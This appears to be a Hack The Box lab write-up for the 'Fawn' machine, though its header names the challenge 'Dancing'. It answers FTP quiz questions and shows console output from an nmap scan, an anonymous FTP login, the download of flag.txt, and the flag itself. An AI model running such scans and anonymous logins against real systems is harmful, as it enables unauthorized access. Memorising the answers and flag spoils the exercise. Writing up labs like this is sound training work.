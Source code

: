 # Fawn
* Source:  [Hack the Box](https://hackthebox.com/)
* Challenge: Dancing
* Topic: [[FTP]]
* Difficulty: Very easy
* Date: 12-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What does the 3-letter acronym FTP stand for? 
 - **File Transfer Protocol**
2. What communication model does FTP use, architecturally speaking? 
- **Client-Server model**
3. What is the name of one popular GUI FTP program? 
- **FileZilla**
4. Which port is the FTP service active on usually?
- **21 TCP**
5. What acronym is used for the secure version of FTP? 
- **SFTP**
6. What is the command we can use to test our connection to the target? 
- **ping**
7. From your scans, what version is FTP running on the target? 
- **vsftpd 3.0.3**
8. From your scans, what OS type is running on the target?
- **Unix**

---
## Solution:
Get the flag from FTP Server:

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo nmap -sV -p T:20,21 10.129.87.103
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-12 07:47 EDT
Nmap scan report for 10.129.87.103
Host is up (0.063s latency).

PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.18 seconds

┌──(kali㉿kali)-[~/Downloads]
└─$ ftp 10.129.87.103
Connected to 10.129.87.103.
220 (vsFTPd 3.0.3)
Name (10.129.87.103:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||36440|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||36066|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |*************************************************|    32      416.66 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.44 KiB/s)
ftp> exit
221 Goodbye.
                           
┌──(kali㉿kali)-[~/Downloads]
└─$ cat flag.txt
035db21c881520061c53e0536e44f815
```

**Flag:** `035db21c881520061c53e0536e44f815`

---
**Tags:** [[HackTheBox]]